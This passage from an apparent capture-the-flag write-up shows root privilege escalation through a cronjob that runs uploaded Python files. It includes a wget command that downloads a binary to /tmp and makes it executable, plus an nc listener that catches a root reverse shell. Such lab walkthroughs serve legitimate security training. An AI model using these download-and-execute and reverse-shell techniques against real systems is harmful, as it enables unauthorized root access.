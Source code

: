 Wait. Not found? 

Hmm... Take a step back. Let's enumerate the system again.

**Cronjob:**
```
# m h dom mon dow user	command
[...]
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

As we can see, there are 3 cronjobs are running.

Also, we can find that in `king`'s home directory, there is a Bash script called `root.sh`:

**root.sh:**
```bash
python /root/company/media/*.py
```

Which is our uploaded file's directory, and the cronjob will run any python script in that directory.

We can confirm that via [`pspy`](https://github.com/DominicBreuker/pspy):

- Transfer the `pspy` binary:

```
┌──(root💀siunam)-[/opt/pspy]
└─# python3 -m http.server 80

king@ubuntu:~$ wget http://10.18.61.134/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy
```

- Run it:

```
king@ubuntu:~$ /tmp/pspy
[...]
2022/09/05 03:18:01 CMD: UID=0    PID=3255   | python /root/company/media/revshell.py
```

Now we can setup a `nc` listener, and wait for the cronjob runs:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.208.69] 52020
/bin/sh: 0: can't access tty; job control turned off
# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:20:44:86:68:bd brd ff:ff:ff:ff:ff:ff
    inet 10.10.208.69/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20:44ff:fe86:68bd/64 scope link 
       valid_lft forever preferred_lft forever
```
